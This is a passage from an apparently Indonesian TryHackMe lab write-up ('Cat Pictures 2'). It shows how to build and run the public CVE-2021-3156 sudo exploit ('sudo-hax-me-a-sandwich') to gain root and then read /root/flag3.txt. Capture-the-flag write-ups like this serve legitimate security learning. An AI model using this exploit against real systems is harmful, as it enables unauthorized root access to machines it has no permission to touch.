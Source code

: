 - Build file tersebut
```sh
cd CVE-2021-3156
make
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2031.JPG)

- Eksekusi executable file yang berhasil dibuat untuk mendapatkan akses root
```sh
./sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich 0
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2032.JPG)

- Buka file **flag3.txt** yang berada di directory root
```sh
cat /root/flag3.txt
```
